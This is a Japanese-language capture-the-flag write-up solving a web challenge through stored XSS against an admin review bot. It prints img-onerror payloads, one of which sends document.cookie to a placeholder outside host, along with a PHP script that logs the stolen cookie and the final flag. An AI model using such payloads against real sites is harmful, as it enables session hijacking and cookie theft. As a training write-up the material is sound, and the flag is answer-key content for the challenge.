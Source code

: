 # Xmas Still Stands:Web:50pts
You remember when I said I dropped clam's tables? Well that was on Xmas day. And because I ruined his Xmas, he created the [Anti Xmas Warriors](https://xmas.2020.chall.actf.co/) to try to ruin everybody's Xmas. Despite his best efforts, Xmas Still Stands. But, he did manage to get a flag and put it on his site. Can you get it?  


# Solution
文字列をPostし、それを表示するWEBアプリケーションであるようだ。  
Home  
[site1.png](site/site1.png)
Post  
[site2.png](site/site2.png)
Report  
[site3.png](site/site3.png)
Admin  
[site4.png](site/site4.png)
さらに管理人にReportすることでそのPostを削除させることができる。  
AdminページよりXSSで管理人のcookieを盗めばよい。  
問題の頭文字もXSSである。  
```javascript
<script>alert("actf")</script>
```
をPostしてみるが、alertが表示されないのでonerrorを使用する。  
```javascript
<img src="1" onerror="alert('actf');">
```
無事alertが表示されたので、以下のようなスクリプトを仕込みAdminに削除させる。  
```javascript
<img src="1" onerror="location.href = 'http://www.xxxxx.xxx/hack.php?cookie=' + document.cookie;">
```
今回はphpを以下のように記述した(アクセスログを見るのもよい)。  
```php:hack.php
<?php
$URI = $_SERVER['REQUEST_URI'];
echo $URI;
$fp = fopen("hack.txt", "w");
fwrite($fp, $URI);
fclose($fp);
?>
```
表示されたPostのIDをReportの後、hack.txtに以下のcookieが保存されていた。  
```text:hack.txt
/hack.php?cookie=super_secret_admin_cookie=hello_yes_i_am_admin;%20admin_name=John
```
これを自身のブラウザに設定してやる。  
```javascript
<img src="1" onerror="document.cookie = 'super_secret_admin_cookie=hello_yes_i_am_admin; path=/';">
<img src="1" onerror="document.cookie = 'admin_name=John; path=/';">
```
せっかくXSSがあるならば使おう。  
するとAdminページにflagが表示される。  
Admin_flag  
[flag.png](site/flag.png)

## actf{s4n1tize_y0ur_html_4nd_y0ur_h4nds}